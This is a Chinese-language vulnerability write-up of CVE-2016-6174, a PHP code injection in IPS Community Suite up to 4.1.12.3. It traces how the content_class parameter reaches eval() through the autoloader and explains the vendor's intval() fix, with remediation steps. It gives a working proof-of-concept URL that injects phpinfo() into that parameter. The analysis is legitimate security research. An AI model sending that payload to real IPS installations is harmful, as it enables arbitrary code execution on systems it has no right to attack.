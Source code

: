 # IPS Community Suite 自动加载的PHP代码注入漏洞（CVE-2016-6174）

## 一、漏洞概述

### 1.漏洞信息
"IPS Community Suite "是一款国外比较常见的cms。但在其4.1.12.3版本及以下版本，存在PHP代码注入漏洞，该漏洞源于程序未能充分过滤content_class请求参数。远程攻击者可利用该漏洞注入并执行任意PHP代码。
### 2. 漏洞触发条件：
-------
IPS版本：<=4.1.12.3

php环境：<=5.4.24和5.5.0-5.5.8

### 3. 漏洞复现效果图：
-------

![Alt text](./phpinfo.png)

### 4. 漏洞原理图：
-------
![Alt text](./IPS7.png)


### 5. 检测poc

`http://[host]/[ips]/index.php?app=core&module=system&controller=content&do=find&content_class=cms\Fields1{}phpinfo();/*`

## 二、漏洞分析

首先，在cms的入口`index.php`中的`IPS\Controller\Front::i()`
在调用run方法运行程序时:

`IPS\Controller\Front`

会作为自动加载类先被`init.php`中的`autoloader()`方法所重定向并包含。

在该过程中会首先包含`IPS\Request`(`/system/Request/Request.php`),参数在这里被接收：

```

 IPS\Request Object (
  [_url:protected] => IPS\Http\Url Object (
    [url:protected]
    => http://localhost/IPS/index.php?app=core&module=system&controller=content&do=find&content_class=cms\Fields1{}phpinfo();/*
    [data] => Array (
      [scheme] => http
      [host] => localhost
      [path] => /IPS/index.php
      [query] => app=core&module=system&controller=content&do=find&content_class=cms\Fields1{}phpinfo();/*
      )
      [queryString] => Array (
        [app] => core
        [module] => system
        [controller] => content
        [do] => find
        [content_class] => cms\Fields1{}phpinfo();/* )
        [isInternal] => 1
        [isFriendly] =>
      )
      [data:protected] => Array (
        [app] => core
        [module] => system
        [controller] => content
        [do] => find
        [content_class] => cms\Fields1{}phpinfo();/*
      )
  )
```

可以明显的看到url被`Request`对象中的`data`数组以键值得形式所接收并存储。

之后会包含`IPS\Dispatcher\Standard`，在这个类中，有以下定义：

```
$this->classname = 'IPS\\' . $this->application->directory . '\\modules\\' . $this->controllerLocation . '\\' . $this->module->key . '\\' . $this->controller;
```

会将之前接收的参数拼接成`$classname`(`$classname=IPS\core\modules\front\system`)。

包含执行完毕后在`IPS\Dispatcher`中调用方法`run()`方法：

``` php
public function run()
{
  /* Init class */
  if( !class_exists( $this->classname ) )
  {
    \IPS\Output::i()->error( 'page_doesnt_exist', '2S100/1', 404 );
  }
  $this->dispatcherController = new $this->classname;
  if( !( $this->dispatcherController instanceof \IPS\Dispatcher\Controller ) )
  {
    \IPS\Output::i()->error( 'page_not_found', '5S100/3', 500, '' );
  }

  /* Execute */
  $this->dispatcherController->execute();

  $this->finish();
}
```
可以看到现在的`$this->dispatcherController=IPS\core\modules\front\system`。
之后判断`IPS\core\modules\front\system`是否为`\IPS\Dispatcher\Controller`的子类。

在` /applications/core/modules/front/system/content.php`找到`IPS\core\modules\front\system`:

```
namespace IPS\core\modules\front\system;
class _content extends \IPS\Dispatcher\Controller
```
满足条件，之后便执行`execute()`方法。


在`/system/Dispatcher/Controller.php`中有：

```
call_user_func( array( $this, \IPS\Request::i()->do ) );
```

以上函数就是将`execute()`函数作为回调函数执行，而`execute()`函数在`/system/Dispatcher/Dispatcher.php`中的`i()`方法执行。`i()`方法将`Controller`作为一个静态类名；等同于现在将执行`IPS\Dispatcher\Controller`中的`find()`方法也就是执行`IPS\core\modules\front\system`中的`find()`方法：

``` php

$class = 'IPS\\' .implode('\\',explode('_'IPS\Request::i()->content_class ) );

if ( ! class_exists( $class ) or ! in_array( 'IPS\Content', class_parents( $class ) ) )
{
	\IPS\Output::i()->error( 'node_error', '2S226/2', 404, '' );
}
```

这里对我们传进来的`content_class`参数进行了处理，处理后的`$class`为`IPS\cms`，由于`class_exists()`函数本身的机制，导致它默认执行`__autoload`。

php在底层寻找`IPS\cms`（`/applications/cms/Application.php`），`$class`作为参数被调入其中的`spl_autoload_register()`函数。其中在：

```
if ( mb_substr( $class, 0, 14 ) === 'IPS\cms\Fields' and is_numeric( mb_substr( $class, 14, 1 ) ) )
{
  $databaseId = mb_substr( $class, 14 );
  eval( "namespace IPS\\cms; class Fields{$databaseId} extends Fields { public static \$customDatabaseId = $databaseId; }" );
}
```
这里将我们构造的poc的前14个字符截断，与`IPS\cms\Fields`进行比较，之后判断第15个字符是否为数字或字符串，满足条件后，再将截取前14个字符串之后的值作为`$databaseId`，也就是：

`$databaseId=1{}phpinfo();/*`

  将其带入到`eval()`函数中，造成我们构造的php代码执行。

## 三、官方修复分析

经过我们的分析对比

发现 ／applications/cms/Application.php这个文件中 原来的`spl_autoload_register()`和更新后

![Alt text](./ips_fix.png)


我们可以看到，官方利用`intval()`函数对最后传入的`$class`进行来整数验证

使得传入的`$class`的第14位后被限定成为一个整数，防止传入字符串进入`eval()`

>**而升级PHP版本带来的修复是**

在`PHP`的新版本`>=5.4.25`或者`>=5.5.9`里变更了`class_exists`的机制

而低于的版本则没有此限制可以正常触发漏洞
```
    $class = 'IPS' . implode( '', explode( '_', IPSRequest::i()->content_class ) );
    if ( ! class_exists( $class ) or ! in_array( 'IPSContent', class_parents( $class ) ) )
    {
        IPSOutput::i()->error( 'node_error', '2S226/2', 404, '' );
    }
```

此处

`$class="IPS\cms\Fields1{}phpinfo();/*"`的时候不再触发`class_exists()`去加载

`／applications/cms/Application.php`中的`spl_autoload_register()`故不再触发漏洞

## 四、漏洞修复

- 及时升级程序版本
- `PHP` `5.4.x`升级至`5.4.25`以上，`5.5.x`升级至`5.5.9`以上
- `IPS` 升级至`4.12.3.1`以上

## 五、参考
* https://www.seebug.org/vuldb/ssvid-92096
* https://invisionpower.com/
* http://windows.php.net/downloads/releases/archives/
* http://karmainsecurity.com/KIS-2016-11
* http://cve.mitre.org/cgi-bin/cvename.cgi?name=2016-6174
（该分析来自[Lucifaer](https://github.com/Lucifaer))
